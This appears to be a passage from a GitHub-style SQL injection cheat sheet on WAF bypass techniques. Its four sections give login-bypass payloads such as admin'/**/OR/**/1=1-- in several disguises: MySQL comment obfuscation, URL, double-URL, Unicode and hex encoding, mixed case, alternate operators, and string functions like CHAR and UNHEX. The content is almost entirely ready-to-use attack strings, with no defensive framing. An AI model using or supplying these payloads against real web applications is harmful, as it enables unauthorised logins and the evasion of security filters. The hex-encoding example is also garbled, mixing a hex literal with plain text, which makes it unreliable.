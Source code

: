 ## 🚀 Advanced Techniques

### 1. 🛡️ WAF Bypass Techniques

#### Comment-Based Bypasses
```sql
-- MySQL comments
/**/
/*!*/
/*!50000*/
#
-- -

-- Example usage
admin'/**/OR/**/1=1--
admin'/*!OR*/1=1--
admin'/*!50000OR*/1=1--
```

#### Encoding Bypasses
```sql
-- URL encoding
admin%27%20OR%201=1--

-- Double URL encoding  
admin%2527%2520OR%25201=1--

-- Unicode encoding
admin\u0027\u0020OR\u00201=1--

-- Hex encoding
admin' OR 1=1-- becomes 0x61646d696e27204f522031=31--
```

#### Case Variation Bypasses
```sql
-- Mixed case
Admin' Or 1=1--
ADMIN' oR 1=1--
admin' Or 1=1--

-- Alternate keywords
admin' || 1=1--
admin' && 1=1--
admin' | 1=1--
admin' & 1=1--
```

#### Function-Based Bypasses
```sql
-- String functions
CONCAT('ad','min')
CHAR(97,100,109,105,110)
UNHEX('61646d696e')

-- Mathematical operations
1+1=2
2-1=1
2*1=2
4/2=2
```
